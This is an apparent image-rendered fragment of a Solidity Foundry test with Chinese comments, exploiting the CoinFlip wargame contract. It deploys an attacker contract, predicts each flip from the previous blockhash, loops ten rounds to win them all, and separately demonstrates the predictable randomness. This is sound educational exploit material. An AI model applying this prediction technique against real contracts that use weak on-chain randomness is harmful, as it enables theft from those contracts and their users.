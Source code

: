 ```solidity
        // 提交预先计算好的答案
        target.flip(side);
    }
}

contract CoinFlipTest is Test {
    CoinFlip public coinFlip;
    CoinFlipAttacker public attacker;
    
    address public attackerAddr = makeAddr("attacker");

    function setUp() public {
        // 部署目标合约
        coinFlip = new CoinFlip();
        
        // 部署攻击合约
        vm.prank(attackerAddr);
        attacker = new CoinFlipAttacker(address(coinFlip));
    }

    function testCoinFlipExploit() public {
        console.log("Initial consecutive wins:", coinFlip.consecutiveWins());
        
        vm.startPrank(attackerAddr);
        
        // 连续攻击10次以获得10连胜
        for (uint i = 0; i < 10; i++) {
            // 模拟新区块（每次攻击都在新区块进行）
            vm.roll(block.number + 1);
            
            uint256 winsBefore = coinFlip.consecutiveWins();
            attacker.attack();
            uint256 winsAfter = coinFlip.consecutiveWins();
            
            console.log("Round", i + 1, "- Wins:", winsAfter);
            
            // 验证每次攻击都成功
            assertEq(winsAfter, winsBefore + 1);
        }
        
        vm.stopPrank();
        
        // 验证最终达成10连胜
        assertEq(coinFlip.consecutiveWins(), 10);
        console.log("Attack successful! 10 consecutive wins achieved.");
    }
    
    function testPredictability() public view {
        // 演示随机数的可预测性
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        
        console.log("Block hash:", blockValue);
        console.log("Coin flip result:", side);
        console.log("This result is 100% predictable!");
    }
}
```
